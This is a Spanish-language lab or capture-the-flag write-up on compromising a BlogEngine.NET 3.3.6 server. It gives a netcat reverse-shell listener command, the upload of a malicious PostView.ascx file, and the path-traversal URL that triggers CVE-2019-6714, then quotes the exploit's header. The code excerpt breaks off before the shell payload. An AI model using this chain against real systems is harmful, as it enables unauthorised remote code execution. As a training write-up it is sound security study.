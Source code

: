 Tenemos la pass vamos a probar a entrar.

![image](https://github.com/user-attachments/assets/b65e6030-3779-4784-8b79-5f98e694c7d6)

Ya dentro del admin vemos la versión de blogEngine que es la 3.3.6 sabiendo esto, vamos a buscar si hay alguna vulnerabilidad publica

VUala https://www.exploit-db.com/exploits/46353

Como podemos ver: 

Primero deberemos abrir un tcpClient "nc -lvnp puerto" porsteriormente subir el archivo (exploit) al "file manager" nos dice que esto se encuentra editando un post y clickando, deberemo subir el archivo con el nombre exacto "PostView.ascx" una vez subido nos iremos a la direccion /App_Data/files 

## BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution

```
# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
# Date: 02-11-2019
# Exploit Author: Dustin Cobb
# Vendor Homepage: https://github.com/rxtur/BlogEngine.NET/
# Software Link: https://github.com/rxtur/BlogEngine.NET/releases/download/v3.3.6.0/3360.zip
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714

/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
 * Attack:
 *
 * First, we set the TcpClient address and port within the method below to 
 * our attack host, who has a reverse tcp listener waiting for a connection.
 * Next, we upload this file through the file manager.  In the current (3.3.6)
 * version of BlogEngine, this is done by editing a post and clicking on the 
 * icon that looks like an open file in the toolbar.  Note that this file must
 * be uploaded as PostView.ascx. Once uploaded, the file will be in the
 * /App_Data/files directory off of the document root. The admin page that
 * allows upload is:
 *
 * http://10.10.10.10/admin/app/editor/editpost.cshtml
 *
 *
 * Finally, the vulnerability is triggered by accessing the base URL for the 
 * blog with a theme override specified like so:
 *
 * http://10.10.10.10/?theme=../../App_Data/files
 *
 */

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
```